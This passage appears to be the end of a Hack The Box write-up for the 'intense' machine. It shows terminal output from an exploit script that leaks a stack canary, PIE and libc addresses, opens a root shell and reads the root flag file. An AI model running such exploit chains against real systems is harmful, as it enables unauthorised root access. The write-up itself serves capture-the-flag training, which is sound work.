 ### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ python3 ./pwn-note_server2.py
[*] '/home/zweilos/htb/intense/note_server'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 127.0.0.1 on port 5001: Done
[+] Leaked canary: 0x9b61993eb04bed00
[+] PIE leak : 0x5608ae82cf54
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loaded 14 cached gadgets for './note_server'
[+] Libc leak : 0x7fa1096c5070
[+] Opening connection to 127.0.0.1 on port 5001: Done
[*] Loading gadgets for '/home/zweilos/htb/intense/libc.so.6'
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
$ hostname
intense
$ cat /root/root.txt
b3e42063bf6316157da49cbfae5e21d7
```

sdg

![](/assets/img/11-pwned.png)

